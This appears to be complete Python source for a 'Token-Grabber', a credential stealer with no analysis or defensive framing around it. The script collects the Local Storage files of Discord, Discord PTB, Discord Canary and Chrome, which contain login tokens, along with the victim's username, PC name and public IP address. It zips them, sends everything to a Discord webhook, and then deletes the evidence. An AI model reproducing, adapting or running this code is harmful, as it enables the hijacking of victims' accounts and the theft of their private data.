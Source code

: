 # Token-Grabber
import os
import sys
import shutil
import zipfile
from requests import get
from dhooks import Webhook, File

hook = Webhook('WEBHOOK HERE')
path = os.getenv('APPDATA')
localpath = os.getenv('LOCALAPPDATA')
user = os.getenv('username')
pc_name = os.environ['COMPUTERNAME']
temp_dir = localpath+"\\temp\\"
tokendir = path+"\\Discord\\Local Storage\\leveldb\\"
ptbtokendir = path+"\\discordptb\\Local Storage\\leveldb\\"
canarytokendir = path+"\\discordcanary\\Local Storage\\leveldb\\"
chromedir = localpath + "\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb\\"

zipf = temp_dir+"logs.zip"
if os.path.isfile(temp_dir+"run.log"):
  sys.exit()
ip = get('https://api.ipify.org').text

if os.path.isfile(zipf):
  os.remove(zipf)

zip = zipfile.ZipFile(zipf,'a')

if os.path.isdir(tokendir):
  discordinst = True
  try:
    for root, dirs, files in os.walk(tokendir):
      for file in files:
        zip.write(tokendir+file)
  except Exception:
    failed = True
else:
  discordinst = False
  
if os.path.isdir(ptbtokendir):
  ptbinst = True
  try:
     for root, dirs, files in os.walk(ptbtokendir):
       for file in files:
         zip.write(ptbtokendir+file)
  except Exception:
     ptbfailed = True
else:
  ptbinst = False
  
if os.path.isdir(canarytokendir):
  canaryinst = True
  try:
     for root, dirs, files in os.walk(canarytokendir):
       for file in files:
         zip.write(canarytokendir+file)
  except Exception:
     canaryfailed = True
else:
  canaryinst = False
 
if os.path.isdir(chromedir):
  chromeinst = True
  try:
     for root, dirs, files in os.walk(chromedir):
       for file in files:
         zip.write(chromedir+file)
  except Exception:
     chromefailed = True
else:
  chromeinst = False
zip.close()

def main():
  with open (temp_dir+"run.log", 'w+') as handle:
    handle.write("Fatal Error.")
    handle.close()
  hook.send('```css\nToken Grabbed! \n\nUsername: '+str(user) + '\nPC Name: ' + pc_name + '\nIP Address: {}'.format(ip) +'\n\nZip File:```')
  try:
    hook.send(file = File(zipf, name=str(user)+" Logs.zip"))
  except:
    hook.send('```css\nThere was an error obtaining the zip.```')
  if discordinst and ptbinst and canaryinst and chromeinst == False:
    hook.send("```css\nUser had nothing installed```")
  try:
    os.remove(zipf)
  except:
    return ''

main()
